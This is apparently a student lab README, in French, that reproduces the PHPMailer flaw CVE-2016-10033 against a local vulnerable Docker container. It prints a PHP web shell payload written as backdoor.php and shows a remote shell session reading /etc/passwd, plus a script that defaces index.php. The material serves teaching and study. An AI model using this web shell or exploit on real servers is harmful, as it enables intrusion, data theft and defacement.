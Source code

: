 # Ensimag-ssi-2019-2020

## Getting Started
```
$ git clone "https://github.com/elhouti/ensimag-ssi-2019-20.git" && \
cd ensimag-ssi-2019-20
```

## Reproduire la vulnérabilité 

Étape  1: Tout d'abord on va utiliser une image docker qui permet de lancer une application web contenant un formulaire d'envoie de mails avec la librairie PHPMailer(voir index.php) sur un container.
Si jamais vous ne disposez pas de docker sur votre machine (le cas des machines de l'école), [Install Docker on Linux](https://runnable.com/docker/install-docker-on-linux).
```
$ docker run --rm -it -p 8080:80 vulnerables/cve-2016-10033 &
```
Lorsque l'image soit lancé sur le conteneur docker, visiter localhost:8080

![](index.png)

Étape 2: Lancement du script "exploit.sh", ce dernier injecte le malicious code ``` <?php echo "|".base64_encode(system(base64_decode($_GET["cmd"])))."|"; ?>``` dans le serveur distant (dans notre cas ça sera "localhost:8080", puisque l'application est exécuté sur un container docker locale) sous la forme d'un fichier php que nous avons l'appelé "backdoor.php" en exploitant La faille de PHPMailer qui ne vérifier pas les données envoyées par l'utilisateur à travers le formulaire avant l'exécution, et par conséquent il va nous donner la possibilité d'éxécuter des commandes à distance à travers le script injecté (Remot shell).
```
$ bash exploit.sh localhost:8080
```
output: (ls, ls vulnerable, pwd, cat /etc/passwd sont exécuté sur le seveur distant)
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Cible exploitée, accès au shell sur http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Vous avez la main pour saisir Les commandes à exécuter sur le serveur distant ...
[+] (tappez exit pour sortir du shell)
www-data
RemoteShell> ls
vulnerable
RemoteShell> ls vulnerable
travis.phpunit.xml.dist
RemoteShell> pwd
/www
RemoteShell> cat /etc/passwd
smmsp:x:105:108:Mail
RemoteShell> exit
[+] Sortie
```
En fait, ce script utilise implicitement le formulaire, et donc pour reproduire la meme chose manuellement avec le formulaire on remplissant les champs de formulaire par les données suivant:


Étape3: C'est intéressant, mais pour tester quelque chose de plus concrète, lancant le script "second_use_case.sh" qui exécute une commande sur le shell distant qui permet d'écraser le contenu du ficher "index.php" par une page noire contant le mot "defaced".
```
$ bash concret_example.sh localhost:8080
```
output 
```
[+] exemple d éxploitation CVE-2016-10033
[+] Lancement de l éxploitation localhost:8080
[+] Target exploited, acessing shell at http://localhost:8080/backdoor.php
[+] Vérification si le fichier backdoor a été creé sur le host ciblé
[+] Backdoor.php trouvé dans le host ciblé
[+] Términé avec succès ...
```

résultat

![](ssi.png)

